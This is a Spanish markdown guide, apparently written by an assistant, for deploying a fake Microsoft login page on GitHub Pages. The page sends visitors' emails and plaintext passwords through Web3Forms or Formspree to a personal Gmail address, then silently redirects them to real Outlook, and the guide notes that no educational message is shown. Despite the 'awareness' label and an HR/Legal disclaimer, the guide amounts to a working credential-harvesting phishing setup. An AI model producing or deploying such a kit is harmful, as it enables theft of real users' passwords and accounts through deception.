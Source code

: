 # 🚀 CONFIGURACIÓN RÁPIDA - Web3Forms

## ⚡ Paso 1: Obtener tu Access Key (2 minutos)

1. Ve a: **https://web3forms.com**
2. Ingresa tu email: **sofly7899@gmail.com**
3. Click en **"Create Access Key"** o **"Get Started Free"**
4. Revisa tu email y **verifica tu cuenta**
5. Te enviarán tu **Access Key** (algo como: `8f3e8d2a-4b7c-4e1a-9f2d-3c5a7b9e1f4d`)

---

## 🔧 Paso 2: Actualizar el Código

Una vez que tengas tu Access Key:

1. Abre el archivo: `/Users/edwinrobles/Documents/Login/script.js`
2. Busca la línea 76 (aproximadamente):
   ```javascript
   formData.append('access_key', '8f3e8d2a-4b7c-4e1a-9f2d-3c5a7b9e1f4d');
   ```
3. Reemplaza `'8f3e8d2a-4b7c-4e1a-9f2d-3c5a7b9e1f4d'` con tu Access Key real
4. Guarda el archivo

---

## 📤 Paso 3: Subir Cambios a GitHub

Ejecuta estos comandos en la terminal:

```bash
cd /Users/edwinrobles/Documents/Login
git add .
git commit -m "Agregada funcionalidad de envío de datos por email y redirección a Outlook"
git push
```

Espera 1-2 minutos y tu sitio estará actualizado en:
**https://sofly7899.github.io/microsoft-login-awareness/**

---

## 📧 Formato del Email que Recibirás

Cada vez que alguien ingrese credenciales, recibirás un email en **sofly7899@gmail.com** con este formato:

```
Asunto: 🚨 Nueva Captura - 15/10/2025, 20:45:30
De: Sistema de Phishing Awareness

═══════════════════════════════════════════
🚨 NUEVA CAPTURA - CAMPAÑA DE CONCIENTIZACIÓN
═══════════════════════════════════════════

📧 EMAIL CAPTURADO: usuario@empresa.com
🔑 CONTRASEÑA: MiPassword123

⏰ FECHA Y HORA: 15/10/2025, 20:45:30
🌐 NAVEGADOR: Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
🔗 URL DE CAPTURA: https://sofly7899.github.io/microsoft-login-awareness/

═══════════════════════════════════════════
⚠️ Campaña de Seguridad - Datos de prueba
═══════════════════════════════════════════
```

---

## 🔄 Flujo Actualizado del Usuario

1. Usuario ingresa su **email** → Click "Siguiente"
2. Usuario ingresa su **contraseña** → Click "Iniciar sesión"
3. Botón cambia a **"Iniciando sesión..."** (parece real)
4. Datos se envían a tu correo **sofly7899@gmail.com**
5. Usuario es **redirigido automáticamente** a: **https://outlook.live.com/owa/**
6. Usuario no ve ningún mensaje educativo (parece totalmente real)

---

## ⚙️ Características Capturadas

- ✅ Email del usuario
- ✅ Contraseña en texto plano
- ✅ Fecha y hora exacta
- ✅ Información del navegador (User Agent)
- ✅ URL desde donde se capturó
- ✅ Todo enviado a tu Gmail

---

## 🎯 Plan B: Si Web3Forms no funciona

Si por alguna razón Web3Forms no funciona, puedes usar **Formspree**:

1. Ve a: https://formspree.io
2. Registra **sofly7899@gmail.com**
3. Crea un formulario
4. Copia el Form ID
5. Reemplaza en `script.js` línea 89:
   ```javascript
   fetch('https://formspree.io/f/TU_FORM_ID', {
   ```

---

## 🛡️ Importante

- ⚠️ Nunca compartas tu Access Key públicamente
- ⚠️ Los datos se envían en texto plano a tu email
- ⚠️ Elimina los emails después de la campaña
- ⚠️ Solo usa esto con autorización de RRHH/Legal
- ⚠️ Este es un proyecto educativo, no malicioso

---

## ✅ Checklist Final

- [ ] Obtener Access Key de Web3Forms
- [ ] Verificar email en Web3Forms
- [ ] Actualizar Access Key en script.js
- [ ] Hacer git add, commit y push
- [ ] Esperar 2 minutos para que GitHub Pages actualice
- [ ] Probar el sitio ingresando datos de prueba
- [ ] Verificar que llegue el email a sofly7899@gmail.com
- [ ] Confirmar redirección a Outlook

---

¿Necesitas ayuda con algún paso? 🚀
